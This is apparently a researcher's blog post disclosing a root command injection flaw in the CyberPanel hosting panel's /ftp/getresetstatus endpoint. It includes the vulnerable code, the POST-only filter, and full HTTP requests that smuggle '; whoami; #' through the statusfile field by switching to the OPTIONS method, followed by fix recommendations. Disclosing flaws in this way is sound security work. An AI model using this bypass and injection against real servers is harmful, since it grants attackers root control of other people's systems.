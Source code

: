 ```yaml
---
title: Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing
published: 2024-10-23
description: "A short story about how I found my first 0day."
tags: [Web Security, 0day]
category: Examples
draft: false
---
```


# Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing

In the ever-evolving landscape of web applications, security remains a top concern. As an avid user and supporter of open-source projects, I was drawn to CyberPanel, a widely-used control panel for managing web hosting and server environments. Little did I know that my exploration would lead me down a rabbit hole, revealing a critical command injection vulnerability!

## Setting the Scene: What is CyberPanel?

CyberPanel is an open-source web hosting control panel that aims to simplify the management of servers. It's packed with features, offering everything from file management to SSL management, making it a go-to choice for many developers and system administrators. However, like any powerful tool, it requires vigilance to ensure security measures are robust.

## The Discovery: Unearthing the Vulnerability

While diving into the functionality of CyberPanel, I stumbled upon the `/ftp/getresetstatus` endpoint. At first glance, it appeared innocuous enough, handling user requests with ease. However, a closer inspection revealed a critical flaw: this endpoint processes user input from the `statusfile` parameter without proper validation or sanitization, creating a tempting opportunity for remote command injection.

## The Vulnerable Code

The vulnerability exists in the `/ftp/getresetstatus` endpoint, which processes user input from the `statusfile` parameter. The code directly incorporates this input into a shell command without proper validation or access control. Here’s a simplified version of the vulnerable code:

```python
def getresetstatus(request):
    data = json.loads(request.body)
    statusfile = data['statusfile']
    installStatus = ProcessUtilities.outputExecutioner("sudo cat " + statusfile)
    ...
```

As illustrated, the `statusfile` parameter is directly used in a shell command, creating a significant opportunity for remote command injection. Moreover, this endpoint lacks proper **Access Control Lists (ACLs)**, leaving it vulnerable to unauthorized access.

### Step 1: Initial Testing

My journey began by testing the `/ftp/getresetstatus` endpoint using a POST request. I crafted a request designed to execute the `whoami` command, ensuring to include the necessary CSRF token for validation:

```http
POST /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

Upon sending the request, the security middleware sprang into action and blocked it, returning the following response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Accept-Language, Cookie
Content-Language: en
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Content-Length: 269
Date: Wed, 23 Oct 2024 10:52:35 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"error_message": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >.", "errorMessage": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >."}
```

The middleware effectively checked for special characters in POST request bodies, but it did **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 2: Analyzing the Security Middleware

Curious about the middleware's behavior, I dug deeper into the source code. The relevant security middleware checks for specific characters in POST request bodies. Here’s a simplified version of the security middleware code:

```python
class secMiddleware:
    def __call__(self, request):
        if request.method == 'POST':
            try:
                data = json.loads(request.body)
                for key, value in data.items():
                    # Check for special characters
                    if any(char in value for char in [';', '&', '|', '`']):
                        # Log and block the request
                        return HttpResponse("Invalid input detected.")
            except Exception as msg:
                # Handle exceptions
                pass
        return self.get_response(request)
```

The middleware effectively checks for potentially harmful characters in POST requests, but it does **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 3: The Bypass Discovery

Realizing that the middleware was not enforcing the same checks for OPTIONS requests, I decided to exploit this oversight. I crafted an OPTIONS request with my malicious payload, ensuring to include all relevant headers just like the POST request:

```http
OPTIONS /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

### Step 4: Triggering the Vulnerability

To my surprise, the OPTIONS request successfully passed through the security middleware without any validation, executing the command on the server. This allowed me to retrieve sensitive information, and I received the following response confirming the successful exploitation:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-XSS-Protection: 1; mode=block
X-Frame-Options: sameorigin
Content-Security-Policy: style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.jsdelivr.com https://cdnjs.cloudflare.com https://maxcdn.bootstrapcdn.com https://cdn.jsdelivr.net
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Vary: Accept-Language, Cookie
Content-Language: en
Content-Length: 64
Date: Wed, 23 Oct 2024 10:57:29 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"abort": 0, "error_message": "None", "requestStatus": "root\n"}
```

In this response, the `requestStatus` indicates that the command was executed with root privileges, highlighting the severity of the vulnerability.

## Recommendations for Fixing the Vulnerability

Having discovered this vulnerability, it’s crucial to act quickly to secure the application. Here are a few recommendations for CyberPanel developers:

1. **Implement Input Validation**: Ensure all user inputs are validated and sanitized before being used in any shell commands.

2. **Utilize Access Control Lists (ACLs)**: Add ACLs to the `/ftp/getresetstatus` endpoint to restrict access and limit exposure to potential exploits.

3. **Review Other Endpoints**: Conduct a thorough audit of other sensitive endpoints to identify any similar vulnerabilities or missing ACLs.

4. **Enhance Security Middleware**: Update the security middleware to inspect all HTTP methods, including OPTIONS, to ensure no bypassing of security checks is possible.

## Conclusion: The Fun in Finding Flaws

Finding this vulnerability in CyberPanel was both a challenge and a rewarding experience. It not only honed my skills in security testing but also reminded me of the importance of community in open-source projects. I encourage other developers and security researchers to dive into CyberPanel and similar applications—who knows what hidden gems (or vulnerabilities) you might find!

As I prepare to submit a CVE request for this vulnerability, I look forward to sharing more about this journey. Stay tuned for further updates as I report on this issue and how it can be addressed!

Happy testing!
